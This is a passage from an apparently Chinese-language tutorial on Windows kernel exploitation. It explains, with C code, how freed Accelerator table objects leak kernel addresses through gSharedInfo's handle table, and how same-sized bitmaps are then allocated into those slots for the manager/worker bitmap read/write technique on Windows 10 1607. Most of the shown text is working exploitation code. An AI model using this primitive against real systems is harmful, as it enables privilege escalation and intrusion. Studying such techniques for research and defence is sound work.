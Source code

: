 ```c
		DestroyAcceleratorTable(hAccel);
	}

    return 0;
}

```

再看一下它的执行结果

![alt 5](images/bitmapReplace_RS1/5.jpg)

这糟糕的重用性。  : )

然后就是 CreateBitmap(0x710, 0x2, 0x1, 0x8, NULL) 和 int nSize = 698 创建出来的 bitmap 对象和 Accelerator table 对象的大小正好相等，都是 0x1080 byte，你问我怎么得出来的？试出来的 : )

当然，这个大小在不同的环境下值可能不一样，比如说在 windows 7 x64 下好像就要比在 RS1（windows 10 1607 x64）下要小一点

其它应该没什么好解释的了，获得到地址之后的利用与 bitmap 的利用方式一模一样。

最后，虽然这里用的是 pool fengshui 的方法，但就像上文说到的，直接分配释放分配也可行，比如你把分割线注释往上的代码替换成

```c
	PUSER_HANDLE_ENTRY leakAddr = NULL;
	PSHAREDINFO gSharedInfo = (PSHAREDINFO)GetProcAddress(GetModuleHandle("user32.dll"), "gSharedInfo");
	PUSER_HANDLE_ENTRY handleTable = gSharedInfo->aheList;

	int nSize = 698;

	LPACCEL lPaccel = NULL;
	// LPTR 意为 LMEM_FIXED | LMEM_ZEROINIT，即分配固定内存并初始化为 0
	lPaccel = (LPACCEL)LocalAlloc(LPTR, sizeof(ACCEL) * nSize);

	HACCEL hAccel_1 = NULL;

	hAccel_1 = CreateAcceleratorTable(lPaccel, nSize);

	leakAddr = &handleTable[LOWORD(hAccel_1)];
	DWORD64 hManagerAddr = (DWORD64)(leakAddr->pKernel);
	//printf("Manager bitmap addr: 0x%p\n", hManagerAddr);
	DestroyAcceleratorTable(hAccel_1);
	HBITMAP hManagerbitmap = CreateBitmap(0x710, 0x2, 0x1, 0x8, NULL);

	HACCEL hAccel_2 = NULL;

	hAccel_2 = CreateAcceleratorTable(lPaccel, nSize);

	leakAddr = &handleTable[LOWORD(hAccel_2)];
	DWORD64 hWorkerAddr = (DWORD64)(leakAddr->pKernel);
	//printf("Worker bitmap addr: 0x%p\n", hWorkerAddr);
	DestroyAcceleratorTable(hAccel_2);
	HBITMAP hWorkerbitmap = CreateBitmap(0x710, 0x2, 0x1, 0x8, NULL);
```